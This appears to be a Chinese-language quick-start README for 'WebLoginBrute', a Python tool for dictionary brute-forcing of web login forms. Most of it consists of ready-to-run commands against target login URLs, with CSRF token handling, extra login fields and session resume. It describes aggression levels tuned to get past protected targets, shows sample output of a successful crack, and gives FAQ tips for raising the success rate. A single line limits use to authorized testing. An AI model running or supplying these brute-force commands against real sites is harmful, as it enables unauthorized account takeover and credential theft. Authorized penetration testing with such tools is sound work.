 # 快速开始

**WebLoginBrute v0.0.14** - 企业级Web登录暴力破解工具

## 🚀 安装

## 🚀 基础使用

### 1. 基本命令格式

```bash
python3 webloginbrute.py --form-url <表单URL> --submit-url <提交URL> --username-file <用户名字典> --password-file <密码字典>
```

### 2. 完整示例

#### 有CSRF Token的目标
```bash
python3 webloginbrute.py \
  --form-url "https://example.com/login" \
  --submit-url "https://example.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "_token" \
  --threads 5 \
  --timeout 30
```

#### 无CSRF Token的目标
```bash
python3 webloginbrute.py \
  --form-url "https://example.com/login" \
  --submit-url "https://example.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --threads 5 \
  --timeout 30
```

**注意**：如果目标网站没有CSRF token保护，可以省略 `--csrf` 参数。

### 3. 参数说明

#### 必需参数
- `--form-url`: 登录表单页面URL
- `--submit-url`: 登录提交URL
- `--username-file`: 用户名字典文件路径
- `--password-file`: 密码字典文件路径

#### 可选参数
- `--csrf`: CSRF token字段名（如目标无CSRF token可省略）
- `--login-field`: 额外的登录字段名
- `--login-value`: 额外的登录字段值
- `--cookie-file`: Cookie文件路径
- `--timeout`: 请求超时时间（秒，默认30）
- `--threads`: 并发线程数（默认5）
- `--resume`: 从上次中断的地方继续
- `--aggression-level`: 对抗级别（A0-A3，默认A1）
- `--dry-run`: 测试模式，不实际发送请求
- `--verbose`: 详细输出

## 📋 使用场景

### 场景1：标准Web应用登录
```bash
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "csrf_token"
```

### 场景2：无CSRF保护的简单登录
```bash
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt
```

### 场景3：需要额外字段的登录
```bash
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "token" \
  --login-field "remember" \
  --login-value "1"
```

### 场景4：高对抗级别攻击
```bash
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "csrf_token" \
  --aggression-level A3 \
  --threads 2 \
  --timeout 60
```

## 🔧 高级配置

### 对抗级别说明
- **A0 (静默模式)**: 最低对抗，适合测试环境
- **A1 (标准模式)**: 默认级别，平衡性能和稳定性
- **A2 (激进模式)**: 高对抗，适合有防护的目标
- **A3 (极限模式)**: 最高对抗，适合强防护目标

### 会话恢复
```bash
# 中断后继续
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "token" \
  --resume
```

### 测试模式
```bash
# 测试配置而不实际攻击
python3 webloginbrute.py \
  --form-url "https://target.com/login" \
  --submit-url "https://target.com/login" \
  --username-file users.txt \
  --password-file passwords.txt \
  --csrf "token" \
  --dry-run \
  --verbose
```

## 📊 输出说明

### 实时输出
```
2024-01-15 10:30:15 - INFO - WebLoginBrute v0.0.14 启动
2024-01-15 10:30:15 - INFO - 加载了 100 个用户名和 1000 个密码
2024-01-15 10:30:15 - INFO - 开始暴力破解，总共 100000 个组合
```

### 最终统计
```
==================================================
暴力破解完成
==================================================
总尝试次数: 1500
成功次数: 1
超时错误: 0
连接错误: 0
HTTP错误: 0
其他错误: 0
重试次数: 0
频率限制: 0
验证码检测: 0
总耗时: 45.23 秒
平均响应时间: 0.030 秒
峰值内存使用: 45.2 MB
内存清理次数: 2
==================================================
```

## ⚠️ 注意事项

1. **合法使用**: 仅用于授权的安全测试
2. **频率控制**: 避免对目标造成过大压力
3. **日志管理**: 定期清理日志文件
4. **资源监控**: 注意内存和CPU使用情况
5. **网络稳定**: 确保网络连接稳定

## 🆘 常见问题

### Q: 提示"缺少CSRF token"怎么办？
A: 如果目标网站没有CSRF保护，可以省略 `--csrf` 参数。

### Q: 如何提高成功率？
A: 可以尝试调整对抗级别、减少并发数、增加超时时间。

### Q: 程序中断后如何继续？
A: 使用 `--resume` 参数可以从上次中断的地方继续。

### Q: 如何查看详细日志？
A: 使用 `--verbose` 参数可以查看DEBUG级别的详细日志。 